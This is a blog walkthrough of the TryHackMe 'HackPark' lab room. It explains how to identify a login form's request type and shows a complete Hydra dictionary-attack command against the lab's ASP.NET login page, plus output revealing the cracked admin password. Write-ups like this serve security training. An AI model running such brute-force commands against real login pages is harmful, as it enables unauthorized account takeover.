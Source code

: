 ```yaml
---
layout: post
title: HackPark
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap]
---
```


![HackPark](/assets/hackpark.png){: .right }{: w="200" h="200" }

## Walkthrough
[https://tryhackme.com/room/hackpark](https://tryhackme.com/room/hackpark)

**Difficulty level:** Easy

## Task 1: Deploy the vulnerable Windows machine 

Connect to our network and deploy this machine. Please be patient as this machine can take up to 5 minutes to boot! You can test if you are connected to our network, by going to our access page. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

This room will cover brute-forcing an accounts credentials, handling public exploits, using the Metasploit framework and privilege escalation on Windows.

### Questions

Q1.Deploy the machine and access its web server.

> "No answer needed"

Q2.Whats the name of the clown displayed on the homepage?

> "Pennywise"

### MyWalk

Just using reverse image on google if you don't recognize the famous clown immediately

## Task 2: Using Hydra to brute-force a login

Hydra is a parallelized, fast and flexible login cracker. If you don't have Hydra installed or need a Linux machine to use it, you can deploy a powerful Kali Linux machine and control it in your browser!

Brute-forcing can be trying every combination of a password. Dictionary-attack's are also a type of brute-forcing, where we iterating through a wordlist to obtain the password.

### Questions

Q1. We need to find a login page to attack and identify what type of request the form is making to the webserver. Typically, web servers make two types of requests, a GET request which is used to request data from a webserver and a POST request which is used to send data to a server.

You can check what request a form is making by right clicking on the login form, inspecting the element and then reading the value in the method field. You can also identify this if you are intercepting the traffic through BurpSuite (other HTTP methods can be found here).

What request type is the Windows website login form using?

> "****"

Q2. Now we know the request type and have a URL for the login form, we can get started brute-forcing an account.

Run the following command but fill in the blanks:

```bash
hydra -l <username> -P /usr/share/wordlists/<wordlist> <ip> http-post-form
```
{: .nolineno }

Guess a username, choose a password wordlist and gain credentials to a user account!


> "********"

### MyWalk

The format is this:  
hydra -l <username> -P <wordlist> <targetIP> http-post-form <login request pattern>

We'll try "admin" as user  
wordlist will be "/usr/share/wordlists/rockyou.txt"
The login request pattern parameter its the most difficult part.  
The format parameter is:  
"<path to login form>:<body, with magic strings ^USER^ and ^PASS^>:<pattern that appears in an invalid login>"  
The path to the login form is: "/Account/login.aspx"  
The pattern that appears in case of invalid login is the text that appears when a login fails. Texting a random login it shows "Login failed" on the page.  
For the body, we’ll need to go back to Inspect Element and grab the request payload.

Here is our hydra command:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.210.66 http-post-form "/Account/login.aspx:__VIEWSTATE=YkV%2BBrWNrMO95paBjm3xJISQwN45gLG%2FL%2BXp40poRUZ%2BpAJGH7Eipr64uHNvtkcH7xdmtwm%2FLqFun3bJkTFE1m2raP6sQokuDgB%2BKSBaqc1hiK%2BC%2Bzvwm96h1U45rDQOdk4HculSS8hP1pwDNrSJEKcLtDMv8sqrmiQjTVQZozG8yS22&__EVENTVALIDATION=6Q1Nj87i1fT1evWA7iQxDXRPTava4YyOQ59XM3TPQa49IzACNrAwIYFYEHgco4u%2F2%2FMzYe7Of1idJQrhLA4vxJMzp4V3gdwjGzWOSPat8HOHhlaByQxtt61IjK%2FAAMhQfuI1hmxkup8X8Mt%2B%2FQ8Qc2kX14HmcrHKrV5lRBOwm8XvFsbh&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login
(content omitted)
[80][http-post-form] host: 10.10.210.66   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
```
{: .nolineno }
